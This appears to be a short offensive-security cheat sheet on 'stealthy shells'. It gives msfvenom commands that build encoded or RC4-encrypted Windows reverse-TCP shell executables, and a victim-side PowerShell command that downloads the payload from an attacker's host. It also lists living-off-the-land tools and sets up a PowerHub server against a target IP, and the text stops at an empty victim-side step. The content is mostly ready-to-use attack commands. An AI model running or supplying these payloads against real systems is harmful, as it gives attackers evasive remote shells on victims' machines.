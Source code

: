 ## Stealthy Shells

### #1&#x20;

#### In the Attacker Machine

```
msfvenom -p windows/shell/reverse_tcp -e x86/shikata_ga_nai -i 5 LHOST=<IP addr> LPORT=<port number> -f exe > xcmd.exe
```

```
msfvenom -p windows/shell/reverse_tcp -e rc4 -encrypt-key BlueSky LHOST=<IP addr> LPORT=<Port number> -f exe > zcmd.exe
```

#### In the Victim Machine

```
Invoke-WebRequest http://<ip address>/xcmd.exe -UseBasicParsing -Outfile xcmd.exe
```



## Living Off the Land

### Windows Tools

* PowerShell
* cmd.exe
* cscript.exe
* psexec.exe
* wmic.exe
* findstr -> for searching the file base
* bitsadmin -> load content
* regedit -> store information

### Linux Tools

* netcat, scp, curl, and wget for file transfers
* grep and find for searching the file base
* awk, gawk, gdb, and other tools

## PowerHub

{% embed url="https://www.github.com/AdrianVollmer/PowerHub" %}

### In the Attacker Machine

```
python3 powerhub.py <Target IP address>
```

### In the Victim Machine
